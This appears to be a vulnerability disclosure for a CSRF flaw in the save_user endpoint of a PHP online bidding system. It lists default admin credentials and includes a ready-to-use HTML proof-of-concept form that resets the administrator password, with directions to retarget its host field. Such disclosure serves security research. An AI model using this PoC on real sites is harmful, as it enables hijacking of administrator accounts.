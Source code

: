 CSRF exists in the Sourcecoster simple online bidding system

official website:https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

version:v1.0

route：/simple-online-bidding-system/admin/ajax.php?action=save_user

related code file：ajax.php

related_function：save_user()


#### 1.Vulnerability verification and exploit

We need log in to the system backend as admin/admin123.The exploit proof-of-concept (PoC) for this vulnerability is as follows. When using it, you need to modify the relevant address information in the PoC according to the target environment, such as the host and refer fields.

CSRF POC
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/simple-online-bidding-system/admin/ajax.php?action=save_user" method="POST">
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="name" value="Administrator" />
      <input type="hidden" name="username" value="admin" />
      <input type="hidden" name="password" value="admin" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

The victim can click on the created page to modify the current victim's password without knowing it.

<img width="767" alt="image" src="https://github.com/Xu-Mingming/cve/assets/172484755/6ca03cf1-b2f3-4025-97c9-e630199c96e4">
<img width="1453" alt="image" src="https://github.com/Xu-Mingming/cve/assets/172484755/de88edfa-dbf5-42ac-b7df-80c312d8dab0">


